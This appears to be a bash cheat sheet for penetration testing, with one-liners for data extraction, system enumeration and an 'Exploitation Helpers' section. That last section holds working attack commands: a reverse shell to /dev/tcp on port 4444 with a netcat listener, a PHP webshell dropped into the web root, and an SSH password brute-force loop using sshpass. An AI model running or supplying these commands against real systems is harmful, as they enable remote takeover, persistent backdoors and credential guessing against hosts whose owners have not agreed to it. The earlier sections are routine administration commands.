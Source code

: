 ### Data Extraction and Manipulation

```bash
# Extract email addresses from multiple files
grep -oE '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}' *.txt | sort | uniq

# Extract URLs from HTML files
grep -oE 'https?://[^"]+' *.html | sort | uniq

# Convert Windows line endings to Unix
find . -type f -name "*.txt" -exec sed -i 's/\r$//' {} \;

# Replace string in multiple files
find . -type f -name "*.php" -exec sed -i 's/old_string/new_string/g' {} \;
```

### System Information Gathering

```bash
# Comprehensive system info in one command
(echo "=== SYSTEM INFO ==="; uname -a; echo "=== CPU INFO ==="; cat /proc/cpuinfo | grep "model name" | uniq; echo "=== MEMORY INFO ==="; free -h; echo "=== DISK INFO ==="; df -h; echo "=== NETWORK INFO ==="; ip a; echo "=== LISTENING PORTS ==="; netstat -tuln) > system_info.txt

# List all installed packages
dpkg -l > installed_packages.txt  # Debian/Ubuntu
rpm -qa > installed_packages.txt  # RHEL/CentOS

# Find all running services
systemctl list-units --type=service --state=running > running_services.txt

# Check for weak permissions on service files
find /etc/systemd/system -type f -exec ls -la {} \; > service_permissions.txt
```

### Exploitation Helpers

```bash
# Generate reverse shell payload and listen for connection
(echo "#!/bin/bash"; echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1") > /tmp/shell.sh && chmod +x /tmp/shell.sh && nc -lvp 4444

# Create and serve a simple webshell
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php && python3 -m http.server 8000

# Create a wordlist from website content
curl -s http://example.com | html2text | tr -s '[:space:]' '\n' | grep -v '^$' | sort | uniq > wordlist.txt

# Brute force SSH with custom wordlist
for user in $(cat users.txt); do for pass in $(cat passwords.txt); do echo "Trying $user:$pass"; sshpass -p "$pass" ssh -o StrictHostKeyChecking=no "$user@192.168.1.10" "id" && echo "SUCCESS: $user:$pass" && break; done; done
```
